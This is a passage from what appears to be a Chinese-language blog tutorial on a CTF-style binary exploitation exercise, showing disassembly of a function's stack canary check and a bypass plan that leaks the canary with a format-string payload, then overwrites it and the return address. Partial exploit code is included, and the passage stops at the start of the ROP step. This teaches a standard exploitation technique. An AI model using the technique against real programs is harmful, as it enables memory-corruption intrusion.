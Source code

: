 ****![](https://mmbiz.qpic.cn/mmbiz_png/Ljib4So7yuWgiazacZwcozhIIJkbibEWTcfRmJfpFw8RCkn9iaZOyT4YJ5JCqCIvRvCLC5RznuKbdPrlfXuXPkevEQ/640?wx_fmt=png)****

![](https://mmbiz.qpic.cn/mmbiz_png/ia3Is12pQKnJWXIMGcqdNA1oiaLt2dbwsSHhf1ZiaSfC3VDVa9qtZgKgEbkkTRFcXRNYib3hqJTAA5qnjd4iaYhPLsw/640?wx_fmt=png)

**disass vuln 函数的反汇编，观察程序执行前后的操作。具体反汇编如下图：**

****![](https://mmbiz.qpic.cn/mmbiz_png/Ljib4So7yuWgiazacZwcozhIIJkbibEWTcfRmJfpFw8RCkn9iaZOyT4YJ5JCqCIvRvCLC5RznuKbdPrlfXuXPkevEQ/640?wx_fmt=png)****

![](https://mmbiz.qpic.cn/mmbiz_png/ia3Is12pQKnJWXIMGcqdNA1oiaLt2dbwsSxic7icKW52DZLVQKegGHws4BWGq1uuibRjDc22uR7Lx6EooMQkiaPGab8A/640?wx_fmt=png)

**分析下上图，在函数序言部分插入 canary 值：**

**0x080485fc <+6>:    mov  eax,gs:0x14**

**0x08048602 <+12>:  mov  DWORD PTR [ebp-0xc],eax**

**函数返回前，vuln 函数返回前检测是否栈溢出**

**0x08048640 <+74>:  mov  eax,DWORD PTR [ebp-0xc]**

**0x08048643 <+77>:  xor  eax,DWORD PTR gs:0x14**

**0x0804864a <+84>:  je    0x8048651 <vuln+91>**

**0x0804864c <+86>:  call  0x8048450 <__stack_chk_fail@plt>**

****![](https://mmbiz.qpic.cn/mmbiz_png/Ljib4So7yuWgiazacZwcozhIIJkbibEWTcfRmJfpFw8RCkn9iaZOyT4YJ5JCqCIvRvCLC5RznuKbdPrlfXuXPkevEQ/640?wx_fmt=png)****

**目前我们绕过思路如下：**

**1. 首先借用第一个 read 和 printtf 泄露出 Canary 的值  
**

**2. 利用第二个 read 进行覆盖: padding——canary——函数返回值。**

****![](https://mmbiz.qpic.cn/mmbiz_png/Ljib4So7yuWgiazacZwcozhIIJkbibEWTcfRmJfpFw8RCkn9iaZOyT4YJ5JCqCIvRvCLC5RznuKbdPrlfXuXPkevEQ/640?wx_fmt=png)****

**payload = "%15$08x"**

**#P1: 接受回显，并取出 canary 的值**

**p.sendline(payload)**

**ret = p.recv()**

**#去掉换行符**

**canary = ret[:8]**

**print "canary is"+canary**

****![](https://mmbiz.qpic.cn/mmbiz_png/Ljib4So7yuWgiazacZwcozhIIJkbibEWTcfRmJfpFw8RCkn9iaZOyT4YJ5JCqCIvRvCLC5RznuKbdPrlfXuXPkevEQ/640?wx_fmt=png)****

**#P2: 利用第二个 read 进行 ROP**

**offset_canary = 0xffffd64c - 0xffffd62c**
